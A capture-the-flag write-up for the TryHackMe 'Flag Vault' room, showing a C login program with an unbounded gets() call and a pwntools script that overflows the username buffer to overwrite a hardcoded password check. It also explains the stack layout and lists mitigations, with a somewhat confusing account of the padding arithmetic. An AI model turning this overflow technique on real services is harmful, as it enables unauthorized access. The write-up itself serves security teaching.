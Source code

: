 # TryHackMe - Flag Vault (CTF Write-up)

> Author: Adam Pawelczyk
>
> Date: 2025-07-06
>
> Category: Binary Exploitation / Reverse Engineering
>
> Difficulty: Easy
>
> [TryHackMe Link](https://tryhackme.com/room/hfb1flagvault)

---

## Challenge Description

> Cipher asked me to create the most secure vault for flags, so I created a vault that cannot be accessed. You don't believe me? Well, here is the code with the password hardcoded. Not that you can do much with it anymore.

We're provided with the source code for a C-based login system. According to the challenge description, the password is hardcoded, but the input for it is commented out.


## Goal

Bypass the login mechanism and retrieve the flag.


## TL;DR

- Analyzed the provided C source code.
- Found that password input is disabled, while a hardcoded password check remains active.
- Identified a classic buffer overflow opportunity via the `gets()` call.
- Crafted an exploit using Python and `pwntools` to overwrite the password buffer in memory.
- Successfully retrieved the flag.


## Source Code Analysis

We are given the C source code. Here's a breakdown of the most critical part:

### Vulnerable login logic:

```c
char password[100] = "";
char username[100] = "";

printf("Username: ");
gets(username);

// If I disable the password, nobody will get in.
//printf("Password: ");
//gets(password);

if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
    print_flag();
}
else{
    printf("Wrong password! No flag for you.");
}
```

### Key Observations:

- Password prompt is commented out, meaning password remains an empty string.
- `gets(username)` is used - a dangerous function that doesn't check bounds.
- If both username and password match the hardcoded values, the flag is printed.
- Since we control username, and it's stored before password in memory, we can overflow into password using a long enough input.


## Exploitation Strategy

We aim to overwrite the empty password buffer with the `5up3rP4zz123Byte` string by overflowing the username buffer.

To find the correct padding between username and password, we bruteforce it.


## Exploit Code

```python
from pwn import *

context.log_level = 'warning'

for padding in range(89, 110):
    conn = remote('10.10.147.75', 1337)
    payload = b'bytereaper\x00' + b'0' * padding + b'5up3rP4zz123Byte'

    conn.recvuntil(b'Username:')
    conn.sendline(payload)

    response = conn.recvall().decode().lstrip()

    if response != 'Wrong password! No flag for you.':
        print(f'padding: {padding}')
        print(f'flag: {response}')
```

This script:
- Connects to the server.
- Sends a crafted payload to overflow username and overwrite password.
- Brute-forces the correct padding.
- Prints the flag on a successful authentication.

## Exploitation Output

Upon executing the exploit code, the flag is retrieved:

![flag](images/flag.png)


### Why is the Padding 101 Bytes?

After writing the 10-character username and a null terminator (11 bytes total), we expected the remaining 89 bytes (of the 100-byte buffer) to end right at the boundary.

However, due to how stack variables are laid out and aligned in memory, there's a **12-byte padding** between the username and password buffers.

This padding ensures the stack remains aligned to **16 bytes**, in accordance with the **System V AMD64 ABI**, which modern compilers like GCC follow. It improves memory access performance and maintains compatibility.

So the full structure looks like this:

- `username[100]` - starts at aligned address.
- 12-byte padding - inserted by the compiler for alignment.
- `password[100]` - follows the padding.

To overflow from the start of username into password, we need:

- 11 bytes - username + null terminator
- 101 bytes - padding to reach the password buffer

Total: **112 bytes**, which aligns with our observed working exploit.

## Conclusion

The challenge showcased a classic example of insecure coding practices in C using `gets()` without bounds checking and leaving critical logic in place even when input is removed.

## Skills Practiced

- Manual code review and vulnerability analysis.
- Understanding stack layout and memory buffer overflows.
- Writing custom exploits using `pwntools`.

## Mitigations

- Never use `gets()` - it's unsafe. Use `fgets()` or other bounded alternatives.
- Never store passwords in plaintext or hardcode them into binaries.
- Always validate input length and use secure memory handling practices.

## Final Thoughts

Although the password prompt was disabled, the actual authentication logic remained, making the system vulnerable to a buffer overflow exploit. This challenge was a fun and simple exercise in binary exploitation and reverse engineering fundamentals.

**Note:** The flag value has been redacted in accordance with TryHackMe's write-up policy.